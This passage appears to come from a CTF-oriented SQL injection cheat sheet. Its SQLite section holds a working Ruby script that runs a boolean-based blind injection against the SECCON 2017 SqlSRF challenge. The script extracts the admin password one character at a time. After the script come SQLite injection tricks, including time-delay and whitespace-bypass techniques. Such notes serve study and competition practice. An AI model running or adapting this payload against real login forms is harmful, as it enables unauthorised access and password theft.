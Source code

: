https://www.oracletutorial.com/oracle-basics/oracle-fetch/
https://www.oracletutorial.com/oracle-administration/oracle-show-tables/

## SQLite
### Blind
- Boolean Based
    - SECCON 2017 qual SqlSRF
```ruby
# encoding: UTF-8

# sqlite injection (POST method) (二分搜)
# SECCON sqlsrf爆admin密碼 
require 'net/http'
require 'uri'

$url = 'http://sqlsrf.pwn.seccon.jp/sqlsrf/index.cgi'
$ans = ''

(1..100).each do |i|
    l = 48
    r = 122

    while(l <= r)
        #puts "left: #{l}, right: #{r}"
        break if l == r

        mid = ((l + r) / 2)
        $query = "kaibro'union select '62084a9fa8872a1b917ef4442c1a734e' where (select unicode(substr(password,#{i},#{i})) from users where username='admin') > #{mid} and '1'='1"
        
        res = Net::HTTP.post_form URI($url), {"user" => $query, "pass" => "kaibro", "login" => "Login"}
        
        if res.body.include? 'document.location'
            l = mid + 1
        else
            r = mid
        end

    end
    $ans += l.chr
    puts $ans

end
```

### Other Knowledge
- 子字串：
    - `substr(“abc",1,1)   =>   'a'`
- Ascii function:
    - `unicode('d') => 100`
- legth
    - `length('ab') => 2`
- Concatenation
    - `||`
    - `'a' || 'b' => 'ab'` 
- Time Delay
    - `randomblob(100000000)`
- 空白字元
    - `0A 0D 0C 09 20`
- Case when
    - SQLite沒有`if`